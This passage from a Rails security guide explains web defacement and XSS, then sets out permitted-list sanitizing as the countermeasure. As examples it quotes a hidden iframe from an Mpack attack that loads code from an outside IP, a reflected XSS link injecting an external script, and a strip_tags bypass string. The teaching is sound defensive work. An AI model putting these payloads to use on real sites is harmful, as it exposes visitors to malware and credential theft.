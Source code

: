 ##### Defacement

With web page defacement an attacker can do a lot of things, for example, present false information or lure the victim on the attackers website to steal the cookie, login credentials, or other sensitive data. The most popular way is to include code from external sources by iframes:

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

This loads arbitrary HTML and/or JavaScript from an external source and embeds it as part of the site. This `iframe` is taken from an actual attack on legitimate Italian sites using the [Mpack attack framework](https://isc.sans.edu/diary/MPack+Analysis/3015). Mpack tries to install malicious software through security holes in the web browser - very successfully, 50% of the attacks succeed.

A more specialized attack could overlap the entire website or display a login form, which looks the same as the site's original, but transmits the username and password to the attacker's site. Or it could use CSS and/or JavaScript to hide a legitimate link in the web application, and display another one at its place which redirects to a fake website.

Reflected injection attacks are those where the payload is not stored to present it to the victim later on, but included in the URL. Especially search forms fail to escape the search string. The following link presented a page which stated that "George Bush appointed a 9 year old boy to be the chairperson...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Countermeasures

_It is very important to filter malicious input, but it is also important to escape the output of the web application_.

Especially for XSS, it is important to do _permitted input filtering instead of restricted_. Permitted list filtering states the values allowed as opposed to the values not allowed. Restricted lists are never complete.

Imagine a restricted list deletes `"script"` from the user input. Now the attacker injects `"<scrscriptipt>"`, and after the filter, `"<script>"` remains. Earlier versions of Rails used a restricted list approach for the `strip_tags()`, `strip_links()` and `sanitize()` method. So this kind of injection was possible:

```ruby
strip_tags("some<<b>script>alert('hello')<</b>/script>")
```

This returned `"some<script>alert('hello')</script>"`, which makes an attack work. That's why a permitted list approach is better, using the updated Rails 2 method `sanitize()`:

```ruby
tags = %w(a acronym b strong i em li ul ol h1 h2 h3 h4 h5 h6 blockquote br cite sub sup ins p)
s = sanitize(user_input, tags: tags, attributes: %w(href title))
```

This allows only the given tags and does a good job, even against all kinds of tricks and malformed tags.
